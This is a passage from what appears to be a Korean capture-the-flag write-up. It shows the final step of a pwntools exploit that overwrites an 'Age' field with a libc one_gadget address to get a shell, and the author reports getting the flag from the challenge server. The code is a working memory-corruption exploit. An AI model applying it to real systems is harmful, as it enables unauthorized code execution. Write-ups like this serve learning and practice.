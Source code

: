 ```python

one_gadget = libc_base + 0x10a41c

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Weight: ', b'1')
p.sendlineafter(b'Age: ', str(one_gadget).encode())

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Weight: ', b'1')

p.interactive()
```

이렇게 코드를 완성했다. 이걸 실행시켜보면  

<br>

![image](https://github.com/user-attachments/assets/4504c5e3-2b75-4967-8285-947adc83d457)

<br>

정답이 잘 나온다. 이제 서버에 직접 날려보면,  

<br>

![image](https://github.com/user-attachments/assets/82402533-850f-4b15-b2e3-a03c971a762f)

성공적으로 플래그를 얻어냈다.  
